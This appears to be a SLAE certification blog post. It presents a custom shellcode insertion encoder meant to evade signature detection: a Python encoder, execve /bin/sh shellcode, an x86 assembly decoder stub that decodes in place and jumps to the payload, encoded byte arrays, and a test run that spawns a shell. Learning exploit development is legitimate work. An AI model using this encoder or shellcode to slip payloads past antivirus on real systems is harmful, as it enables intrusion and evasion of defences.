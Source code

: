 ```yaml
---
title:  "[SLAE 4] Custom Encoding Scheme"
---
```


![Logo](/assets/images/tux-root.png)

## Custom encoding scheme
For the 4th assignment of [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/), I've made a custom encoding scheme, with the same purpose as the insertion encoder: *__avoid signature detection by inserting garbage bytes into the shellcode__*.

The encoding scheme works as follows: we start from a working shellcode and insert garbage blocks, containing a random garbage byte and the offset to the next garbage block. The distance between the garbage blocks is a random value between 2 modifiable limits. In this way we can control the final length of the shellcode and the amount of garbage inserted.

The encoded shellcode will look like this:
```
---------------------------------------------------------
| n0 | . . .| b1 | n1 | . . . . .| b2 | n2 | . . . |END |
---------------------------------------------------------

ni  - next garbage byte position
bi  - garbage byte 
END - END of the shellcode marker
```

The encoding is done in a Python script:
```python
#!/usr/bin/python
'''
    Python Insertion Encoder   
'''
 
import random
 
# Execve-stack shellcode - execve(/bin/sh,..)
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
 
encoded = ""
 
idx = 1
 
# Control  the frequency of garbage through a displacement
MIN_DEP = 3     # min number of shellcode bytes after which to inject garbage
MAX_DEP = 4     # max ...
dep = random.randint(MIN_DEP, MAX_DEP)
n = idx + dep
encoded += '\\x%02x' % n
END = "\\xf0\\x0d"
 
for x in bytearray(shellcode) :
    if idx == n: 
        # We have reached an insertion point
        dep = random.randint(MIN_DEP, MAX_DEP)
        n = idx + dep
 
        encoded += '\\x%02x' % random.randint(1,255)
        encoded += '\\x%02x' % n
        idx += 2
     
    # Add a shellcode byte
    encoded += '\\x%02x' % x
    idx += 1
 
encoded += END
 
print encoded
# Print in nasm friendly form
print encoded.replace("\\x", ",0x")[1:]
 
print 'Initial len: %d, encoded len: %d' % (len(shellcode), 
    len(encoded)/4)
```

The decoding is done in the assembly shellcode: 
```asm
global _start   

section .text
_start:
 jmp short call_shellcode

decoder:
 pop esi                     ; beginning of the encoded shellcode
 lea edi, [esi]              ; shellcode decoded in place. Edi - dest pointer
 xor eax, eax            
 mov al, byte [esi]          ; position of next garbage byte
 xor ebx, ebx
    push 1                      ; index into the shellcode
    pop ecx

decode: 
    cmp ecx, eax
    jnz short shellcode_byte    ; shellcode byte found 
    add ecx, 2                  ; garbage byte found. Advance 2 bytes
    mov al, byte [esi + eax + 1]; position of next garbage byte    
shellcode_byte:                 ; byte part of real shellcode
 mov bl, byte [esi + ecx]
 mov byte [edi], bl
 inc edi                     ; advance destination
 inc ecx                     ; advance source
 cmp byte [esi + ecx], 0xf0  ; check for END marker
    jnz decode
    cmp byte [esi + ecx + 1], 0x0d
    jnz decode
    jmp esi                     ; shellcode decoded in-place. Jump to it



call_shellcode:

 call decoder
 EncodedShellcode: db 0x04,0x31,0xc0,0x50,0x06,0x08,0x68,0x2f,0x15,0x0b,0x2f,0x12,0x0e,0x73,0x85,0x11,0x68,0x4e,0x14,0x68,0x96,0x18,0x2f,0x62,0xd8,0x1c,0x69,0x6e,0xf9,0x20,0x89,0xe3,0xa9,0x23,0x50,0x6d,0x26,0x89,0x60,0x29,0xe2,0x0e,0x2d,0x53,0x89,0x3b,0x30,0xe1,0xaa,0x34,0xb0,0x0b,0x55,0x37,0xcd,0xe2,0x3b,0x80,0xf0,0x0d
```

And now to test this:
* Encode the _`execve-stack`_ shellcode using the Python script above.
* Disassemble and examine the encoded shellcode
* Define the shellcode bytes at the end of the assembly decoder
* Assemble
* Test using a C program which executes the payload 
```bash
$ ./custom-encoder.py 
\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d
0x05,0x31,0xc0,0x50,0x68,0xb1,0x08,0x2f,0x58,0x0c,0x2f,0x73,0x71,0x10,0x68,0x68,0x88,0x14,0x2f,0x62,0x42,0x17,0x69,0x6a,0x1a,0x6e,0xba,0x1d,0x89,0xf5,0x21,0xe3,0x50,0xe0,0x25,0x89,0xe2,0xaf,0x29,0x53,0x89,0x83,0x2d,0xe1,0xb0,0x33,0x30,0x0b,0x1a,0x33,0xcd,0x66,0x36,0x80,0xf0,0x0d
Initial len: 25, encoded len: 56

$ echo -ne "\x05\x31\xc0\x50\x68\xb1\x08\x2f\x58\x0c\x2f\x73\x71\x10\x68\x68\x88\x14\x2f\x62\x42\x17\x69\x6a\x1a\x6e\xba\x1d\x89\xf5\x21\xe3\x50\xe0\x25\x89\xe2\xaf\x29\x53\x89\x83\x2d\xe1\xb0\x33\x30\x0b\x1a\x33\xcd\x66\x36\x80\xf0\x0d" | ndisasm -b 32 -
00000000  0531C05068        add eax,0x6850c031
00000005  B108              mov cl,0x8
00000007  2F                das
00000008  58                pop eax
00000009  0C2F              or al,0x2f
0000000B  7371              jnc 0x7e
0000000D  106868            adc [eax+0x68],ch
00000010  88142F            mov [edi+ebp],dl
00000013  624217            bound eax,[edx+0x17]
00000016  696A1A6EBA1D89    imul ebp,[edx+0x1a],dword 0x891dba6e
0000001D  F5                cmc
0000001E  21E3              and ebx,esp
00000020  50                push eax
00000021  E025              loopne 0x48
00000023  89E2              mov edx,esp
00000025  AF                scasd
00000026  295389            sub [ebx-0x77],edx
00000029  832DE1B033300B    sub dword [dword 0x3033b0e1],byte +0xb
00000030  1A33              sbb dh,[ebx]
00000032  CD66              int 0x66
00000034  3680F00D          ss xor al,0xd

$ ./compile.sh 
  [+] Assembling egghunter
  [+] Linking egghunter
\xeb\x2d\x5e\x8d\x3e\x31\xc0\x8a\x06\x31\xdb\x6a\x01\x59\x39\xc1\x75\x07\x83\xc1\x02\x8a\x44\x06\x01\x8a\x1c\x0e\x88\x1f\x47\x41\x80\x3c\x0e\xf0\x75\xe8\x80\x7c\x0e\x01\x0d\x75\xe1\xff\xe6\xe8\xce\xff\xff\xff\x04\x31\xc0\x50\x06\x08\x68\x2f\x15\x0b\x2f\x12\x0e\x73\x85\x11\x68\x4e\x14\x68\x96\x18\x2f\x62\xd8\x1c\x69\x6e\xf9\x20\x89\xe3\xa9\x23\x50\x6d\x26\x89\x60\x29\xe2\x0e\x2d\x53\x89\x3b\x30\xe1\xaa\x34\xb0\x0b\x55\x37\xcd\xe2\x3b\x80\xf0\x0d
  [+] House cleaning
  [+] Done!
$ ./shellcode
Shellcode Length:  112 bytes
$ whoami
liv
$
```


The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

##### _This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_
